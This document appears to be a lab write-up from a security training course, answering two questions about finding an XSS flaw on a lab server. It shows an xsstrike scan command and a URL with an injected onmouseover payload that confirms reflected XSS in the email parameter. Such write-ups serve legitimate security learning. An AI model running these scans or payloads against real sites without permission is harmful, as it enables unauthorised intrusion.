 # XSS Discovery

### Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?



<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To look for insertion points we entered random values on the application, and then clicked on Register.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we copy the URL as it is:

```
http://94.237.58.33:51035/?fullname=asdasd&username=sdasf&password=testeasdasd&email=test%40test.com
```

Lastly we'll use the xsstrike tool to explore the parameters:

{% code overflow="wrap" %}
```bash
python xsstrike.py -u "http://94.237.58.33:51035/?fullname=asdasd&username=sdasf&password=testeasdasd&email=test%40test.com"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As the tool runs, we can see that the a reflection was found in the email!



### What type of XSS was found on the above server? "name only"



To answer this question we have to explore the vulnerability

We take the URL used in the last exercise and add the tested payload:

{% code overflow="wrap" %}
```html
http://94.237.58.33:51035/?fullname=asdasd&username=sdasf&password=testeasdasd&email=test%40test.com<A%0AONmOuSeOver+=+(prompt)``>v3dm0s
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we just paste the modified URL and the prompt appears.

This is a Reflected XSS, we can confirm that by revisiting the page.
